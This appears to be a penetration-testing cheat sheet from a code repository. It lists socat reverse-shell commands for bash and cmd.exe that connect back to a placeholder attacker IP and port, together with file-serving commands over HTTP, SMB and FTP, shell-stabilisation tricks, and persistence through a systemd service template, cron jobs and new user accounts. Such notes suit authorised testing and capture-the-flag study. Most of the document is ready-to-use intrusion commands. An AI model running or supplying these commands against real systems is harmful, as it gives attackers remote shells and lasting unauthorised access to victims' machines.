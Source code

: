 ### SoCAT
```
socat file:`tty`,raw,echo=0 tcp-listen:<PORT>
```
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:<PORT>
```
```
socat.exe exec:'cmd.exe',pipes TCP4:<IP>:<PORT>
```
### Serving Files
- Python3
```
python3 -m http.server <PORT> --directory <DIRECTORY>
```
- SMB
```
impacket-smbserver <SHARE> <DIRECTORY> -port <PORT> -username <USERNAME> -password <PASSWORD> -smb2support
```
- FTP
```
python3 -m pyftpdlib -d <DIRECTORY> -p <PORT> -u <USERNAME> -P <PASSWORD>
#Add -w for write permission
```
### Beautify Shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
```
script -qc /bin/bash /dev/null ^Z
stty -a
stty raw -echo
fg
fg (YES YOU TYPE IT TWICE)
export term=xterm
stty rows <ROWS> columns <COLUMNS>
```
### Persistence
- Create a new service
```
vim /etc/systemd/system/<SERVICE>.service
```
- Template for service
```
[Unit]
Description=<DESCRIPTION>

[Service]
Type=simple
Restart=always
ExecStart=<PATH_TO_EXECUTABLE>

[Install]
WantedBy=multi-user.target
```
- Loading the service
```
systemctl daemon reload
```
```
systemctl enable <SERVICE>
```
- Creating a new CronJob
```
crontab -e
```
- CronTab Format
```
[minute] [hour] [day of month] [month] [day of week] [command]
```
### Add Users
- Interactive
```
adduser <USERNAME>
```
```
useradd <USERNAME>
```
- To add a user to a specific group UID can be something new rather than existing
```
useradd -u <UID> -g <GROUP> <USERNAME>
```